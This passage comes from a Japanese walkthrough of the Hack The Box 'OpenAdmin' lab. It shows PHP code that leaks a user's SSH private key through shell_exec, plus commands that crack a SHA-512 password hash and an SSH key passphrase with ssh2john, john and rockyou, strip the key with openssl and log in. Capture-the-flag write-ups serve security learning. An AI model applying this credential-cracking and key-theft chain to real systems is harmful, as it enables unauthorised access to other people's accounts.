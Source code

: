 ```php
</html>
```
ユーザ名 jimmy のパスワードハッシュを確認することができた  
またクレデンシャルが正しい場合、main.phpにリダイレクトされるっぽい
```php
if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
  if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
      $_SESSION['username'] = 'jimmy';
      header("Location: /main.php");
```
main.phpを確認すると、ユーザ名 joanna のssh秘密鍵を表示するっぽい
```php
jimmy@openadmin:/opt/ona/www$ cat /var/www/internal/main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
sha512のハッシュ値をクラックすることができた、web上での jimmy のパスワードは Revealed  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/OpenAdmin_04.png">


## STEP 6
ログイン成功、joannnaの秘密鍵ゲット～  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/OpenAdmin_05.png">  
秘密鍵でsshログインしようとしたが、パスフレーズがいるもよう
```
└─$ chmod 0600 id_rsa 

└─$ ssh -i id_rsa joanna@10.129.246.252
Enter passphrase for key 'id_rsa':
```
`ssh2john`でパスフレーズのハッシュを抽出しクラック  
パスフレーズは bloodninjas と判明
```sh
└─$ ssh2john id_rsa > id_rsa.txt
                                                                                                                                                                                                                                            
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt  id_rsa.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)     
1g 0:00:00:03 DONE (2025-06-05 02:33) 0.3300g/s 3159Kp/s 3159Kc/s 3159KC/s bloodninjas..bloodmore23
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
`openssl`でパスフレーズを解除した秘密鍵でsshログイン成功！  
ユーザフラグゲット！ルートフラグは権限拒否
```sh
└─$ openssl rsa -in id_rsa -out id_rsa_joanna
Enter pass phrase for id_rsa:
writing RSA key
```